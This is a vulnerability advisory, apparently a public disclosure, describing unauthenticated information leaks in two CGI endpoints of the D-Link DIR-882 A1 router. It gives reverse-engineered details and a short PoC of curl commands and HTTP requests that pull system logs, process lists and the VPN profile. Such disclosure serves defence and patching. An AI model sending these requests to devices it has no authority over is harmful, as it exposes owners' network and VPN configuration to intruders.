



# D-Link DIR-882 A1 /HNAP1/dllog.cgi, /HNAP1/dlquickvpnsettings.cgi Unauthenticated Information Disclosure

## 1. Vulnerability Name

D-Link DIR-882 A1 /HNAP1/dllog.cgi, /HNAP1/dlquickvpnsettings.cgi Unauthenticated Information Disclosure

## 2. Basic Information

Field | Content
--- | ---
Vendor | D-Link
Product | DIR-882
Hardware Version | A1
Firmware Version | DIR-882 A1 firmware
Affected Endpoints | /HNAP1/dllog.cgi, /HNAP1/dlquickvpnsettings.cgi

## 3. Vulnerability Principle & Data Flow

The embedded `lighttpd` web server directly maps `.cgi` requests to CGI binaries. Requests to `/HNAP1/dllog.cgi` and `/HNAP1/dlquickvpnsettings.cgi` are directly executed by the corresponding CGI programs without passing through an authentication-protected handler.

Reverse engineering of the affected CGI binaries confirms that their `main()` functions do not perform any authentication or authorization check before disclosing the requested information.

### `dllog.cgi` — System Information Disclosure

The `dllog.cgi` program collects system diagnostic information and returns the generated information through HTTP.



The collected information includes:

- `/var/log/messages`
- memory usage obtained through `free`
- running process information obtained through `ps`
- network interface information obtained through `ifconfig`

The generated file is returned through an HTTP `200 OK` response with:

```text
Content-Disposition: attachment;filename="messages"
```

No authentication is required before the information is collected and returned.

### `dlquickvpnsettings.cgi` — VPN Configuration Disclosure

The `dlquickvpnsettings.cgi` program directly reads the VPN configuration file stored at:

```text
/tmp/vpnprofile.mobileconfig
```

The complete file is loaded into memory and returned to the HTTP client.



The response contains:

```text
Content-Disposition: attachment;filename="vpnprofile.mobileconfig"
```

No authentication is required before the VPN configuration file is returned.

### Combined Information Disclosure Flow

The two affected endpoints allow an unauthenticated attacker to obtain both system diagnostic information and VPN configuration information.



The disclosed information can expose the device's runtime environment, running services, network interface information and VPN configuration.

The system diagnostic information can assist an attacker in identifying the device's network environment and available services. The VPN endpoint additionally exposes the VPN configuration file stored on the device.

## 4. Key Functions

Function | Address | Role
--- | --- | ---
`main()` in `dllog.cgi` | `0x004008f0` | Collects system logs, memory information, process information and network interface information and returns the generated information through HTTP
`main()` in `dlquickvpnsettings.cgi` | `0x004008f0` | Reads `/tmp/vpnprofile.mobileconfig` and returns the VPN configuration file through HTTP

### `lighttpd.conf` — CGI Routing

The embedded web server is based on `lighttpd`.

The relevant configuration is located at:

```text
etc_ro/lighttpd/lighttpd.conf
```

The configuration maps the `/HNAP1` path to:

```text
/etc_ro/lighttpd/www/web/HNAP1/
```

and directly executes CGI binaries for `.cgi` requests.

Therefore, requests to:

```text
/HNAP1/dllog.cgi
/HNAP1/dlquickvpnsettings.cgi
```

can reach the corresponding CGI binaries directly.

### `dllog.cgi` `main()` @ `0x004008f0`

The function performs the following operations:

1. Copies `/var/log/messages` into a generated file.
2. Executes `free` and appends memory usage information.
3. Executes `ps` and appends the running process list.
4. Executes `ifconfig` and appends network interface information.
5. Returns the generated file through HTTP.

The response is generated with:

```text
HTTP/1.1 200 OK
Content-Disposition: attachment;filename="messages"
```

No authentication check is performed before returning the collected information.

### `dlquickvpnsettings.cgi` `main()` @ `0x004008f0`

The function directly accesses:

```text
/tmp/vpnprofile.mobileconfig
```

The file is processed through the following sequence:

```text
fopen()
    ↓
fseek()
    ↓
ftell()
    ↓
malloc()
    ↓
fread()
    ↓
HTTP response
```

The complete VPN configuration file is returned to the HTTP client as:

```text
HTTP/1.1 200 OK
Content-Disposition: attachment;filename="vpnprofile.mobileconfig"
```

No authentication or authorization check is performed before the file is disclosed.

## 5. Test PoC

### System Information Disclosure

```bash
curl "http://192.168.0.1/HNAP1/dllog.cgi?Message1" --output test1.txt
```

The resulting `test1.txt` contains system diagnostic information including:

```text
/var/log/messages
free
ps
ifconfig
```

### VPN Configuration Disclosure

```bash
curl "http://192.168.0.1/HNAP1/dlquickvpnsettings.cgi?Message2" --output test2.txt
```

The resulting file contains:

```text
vpnprofile.mobileconfig
```

which is read from:

```text
/tmp/vpnprofile.mobileconfig
```

### HTTP Request Example

System information disclosure:

```http
GET /HNAP1/dllog.cgi?Message1 HTTP/1.1
Host: 192.168.0.1
```

VPN configuration disclosure:

```http
GET /HNAP1/dlquickvpnsettings.cgi?Message2 HTTP/1.1
Host: 192.168.0.1
```

Both requests can be performed without an authenticated administrator session.

## 6. Impact

An unauthenticated remote attacker can retrieve system diagnostic information and VPN configuration information from the affected D-Link DIR-882 A1 device.

The disclosed system information includes:

- system logs;
- running process information;
- network interface information;
- memory usage information.

The VPN endpoint additionally exposes:

```text
/tmp/vpnprofile.mobileconfig
```

which contains the device's VPN configuration.

This information can disclose details about the device's runtime environment, network configuration and VPN infrastructure, and can assist an attacker in identifying and targeting additional services or interfaces.
